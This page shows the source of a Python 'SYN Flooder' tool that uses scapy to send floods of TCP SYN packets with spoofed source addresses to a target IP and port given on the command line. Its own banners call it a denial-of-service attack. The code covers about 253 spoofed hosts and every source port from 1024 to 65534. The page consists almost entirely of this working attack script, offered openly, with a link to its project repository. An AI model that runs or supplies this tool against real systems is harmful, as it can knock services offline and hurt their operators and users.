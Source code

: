 ```

"""
from docopt import docopt
import logging
import signal
import sys
logging.getLogger("scapy.runtime").setLevel(logging.ERROR)
from scapy.all import *


def main(arguments):
    src_net = "192.168.250."
    dst_ip = arguments["<dst_ip>"]
    dst_port = int(arguments["<dst_port>"])
    sleep = int(arguments["--sleep"])
    verbose = arguments["--verbose"]
    very_verbose = arguments["--very-verbose"]

    signal.signal(signal.SIGINT, lambda n, f: sys.exit(0))

    print("\n###########################################")
    print("# Starting Denial of Service attack...")
    print(f"# Target: {dst_ip}")
    print("###########################################\n")
    for src_host in range(1,254):
        if verbose or very_verbose:
            print(f"[*] Sending spoofed SYN packets from {src_net}{src_host}")
            print("--------------------------------------------")

        for src_port in range(1024, 65535):
            if very_verbose:
                print(f"[+] Sending a spoofed SYN packet from {src_net}{src_host}:{src_port}")

            # Build the packet
            src_ip = src_net + str(src_host)
            network_layer = IP(src=src_ip, dst=dst_ip)
            transport_layer = TCP(sport=src_port, dport=dst_port, flags="S")

            # Send the packet
            send(network_layer/transport_layer, verbose=False)

            if sleep != 0:
                time.sleep(sleep)

    print("[+] Denial of Service attack finished.")

if __name__ == '__main__':
    arguments = docopt(__doc__, version="SYN Flooder 1.5")
    main(arguments)

```
##### Project can be found here: https://github.com/mjdubell/SYN-Flooder
